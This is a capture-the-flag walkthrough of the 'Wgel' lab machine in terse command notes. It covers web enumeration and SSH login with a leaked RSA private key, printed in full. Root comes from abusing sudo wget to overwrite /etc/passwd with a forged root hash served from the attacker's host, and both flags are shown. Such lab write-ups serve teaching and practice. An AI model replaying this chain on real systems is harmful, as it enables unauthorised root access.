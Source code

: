 # Wgel CTF

export IP=10.10.28.16

http://10.10.28.16
# view source code
<!-- Jessie don't forget to udate the webiste -->

```
username=jessie
```

```
nmap -sC -sV -oN nmN nmap/initial $IP
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

```

```
nikto -h http://$IP
```

```
cp directory-list-2.3-medium.txt /tmp
gobuster dir -u http://$IP -w /tmp/directory-list-2.3-medium.txt 

/sitemap              (Status: 301) [Size: 312] [--> http://10.10.28.16/sitemap/]
# scan /sitemap with common.txt
gobuster dir -u http://$IP/sitemap -w /usr/share/dirb/wordlists/common.txt 
/.ssh                 (Status: 301) [Size: 317] [--> http://10.10.28.16/sitemap/.ssh/]
```


```
# Open web browser (private key) 
http://10.10.28.16/sitemap/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
vi jessie_id_rsa
chmod 600 jessie_id_rsa
ssh -i jessie_id_rsa jessie@$IP

```

```
# Logged in as jessie
find | grep flag
./Documents/user_flag.txt
cat ./Documents/user_flag.txt
057c67131c3d5e42dd5cd3075b198ff6

```

```
# Linux PrivEsc Awesome Script
https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
# From github
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O linpeas.sh
sudo mv linpeas.sh /opt
scp -i jessie_id_rsa /opt/linpeas.sh jessie@$IP:/dev/shm
# On vic
chmod +x /dev/shm/linpeas.sh
/dev/shm/linpeas

# root privs with wget command
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

```
#Create fake /etc/passwd with our own root password

cat /etc/passwd > ~/passwd

python
import crypt
crypt.crypt("p@ssw0rd")

'$6$eIWoGb5ha7V8tYPr$XqkLDMZBibTiqlwCqaA3R8CgERL6S4u7MLsaeQ1b/23TyVc1U7HBATxWwa.VxIwp8OHMEwOR7.0mJFYz2UJIy/'

scp -i jessie_id_rsa jessie@$IP:~/passwd . 
#update ~/passwod with our new password
root:$6$eIWoGb5ha7V8tYPr$XqkLDMZBibTiqlwCqaA3R8CgERL6S4u7MLsaeQ1b/23TyVc1U7HBATxWwa.VxIwp8OHMEwOR7.0mJFYz2UJIy/:...

#start a python webserver 
python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

#connect to vpn
sudo openvpn Kr1pt0e.ovpn

#get vpn IP 10.x.x.x
ip addr show tun0

#overwrite /etc/passwd with ours on vic >:-)
sudo wget http://10.18.24.32:8000/passwd -O /etc/passwd

```
--2022-07-25 05:33:19--  http://10.6.7.164:8000/passwd
Connecting to 10.6.7.164:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2398 (2,3K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd          100%[======================>]   2,34K  --.-KB/s    in 0s      

2022-07-25 05:33:19 (227 MB/s) - ‘/etc/passwd’ saved [2398/2398]
```

#I am Groot!
```
jessie@CorpOne:~$ su -
Password: 
root@CorpOne:~# 
```

```
root@CorpOne:~# cat root_flag.txt 
b1b968b37519ad1daa6408188649263d
```


